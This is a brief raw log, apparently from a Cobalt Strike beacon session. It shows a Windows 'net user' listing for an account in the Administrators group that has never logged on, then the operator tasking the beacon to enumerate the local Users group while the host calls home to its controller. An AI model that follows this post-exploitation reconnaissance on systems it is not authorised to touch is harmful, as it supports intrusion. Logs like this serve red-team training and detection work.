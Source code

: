 ```

Full Name                    

Comment                      

User's comment               

Country/region code          000 (System Default)

Account active               Yes

Account expires              Never



Password last set            10/6/2023 10:38:37 AM

Password expires             Never

Password changeable          10/7/2023 10:38:37 AM

Password required            Yes

User may change password     Yes



Workstations allowed         All

Logon script                 

User profile                 

Home directory               

Last logon                   Never



Logon hours allowed          All



Local Group Memberships      *Administrators       *Users                

Global Group memberships     *None                 

The command completed successfully.




[10/06 16:40:51] beacon> shell net localgroup Users
[10/06 16:40:51] [*] Tasked beacon to run: net localgroup Users
[10/06 16:40:51] [+] host called home, sent: 51 bytes
[10/06 16:40:51] [+] received output:
Alias name     Users

Comment        Users are prevented from making accidental or intentional system-wide changes and can run most applications



```